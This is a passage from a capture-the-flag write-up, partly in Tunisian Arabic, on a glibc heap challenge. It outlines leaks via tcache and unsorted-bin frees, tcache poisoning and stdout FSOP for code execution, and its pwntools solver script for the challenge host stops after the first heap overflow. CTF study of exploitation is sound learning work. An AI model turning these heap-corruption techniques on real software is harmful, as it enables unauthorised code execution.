 - we do this attack 3 times (we can do it in 2 or even 1 ema taksir ras)

  1. first one to free a chunk of size 0x2e0 (7aja haka) , this will be put into tcache >>> we can get a heap leak
  2. second one to free a chunk of size > 0x400 to be put into unsorted bin >>> we get libc leak
  3. we free a chunk of same size in attack 1 to corrupt its tcache to our target

- again i chose stdout FSOP for RCE

Solver :

```python
from pwn import *
from time import sleep
context.arch = 'amd64'

def debug():
        if local<2:
                gdb.attach(p,'''
                        x/20gx &array
                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./main")
libc=ELF("./libc.so.6")
nc="nc tcp.espark.tn 4595"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host,port)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

def alloc(size,payload):
        p.recvuntil(">> ")
        p.sendline("1")
        p.recvuntil("Size: ")
        p.sendline(str(size).encode())
        p.recvuntil("Data: ")
        p.send(payload)

def edit(index,payload):
        p.recvuntil(">> ")
        p.sendline("2")
        p.recvuntil("Index: ")
        p.sendline(str(index).encode())
        p.recvuntil("Data: ")
        p.send(payload)
def show(index):
        p.recvuntil(">> ")
        p.sendline("3")
        p.recvuntil("Index: ")
        p.sendline(str(index).encode())

############### main exploit    ###############

alloc(0xa00,b"a"*0xa00+p64(0)+p64(0x361))  # 0
alloc(0x500,b"cc")   #1
edit(0,b"a"*0xa10)

```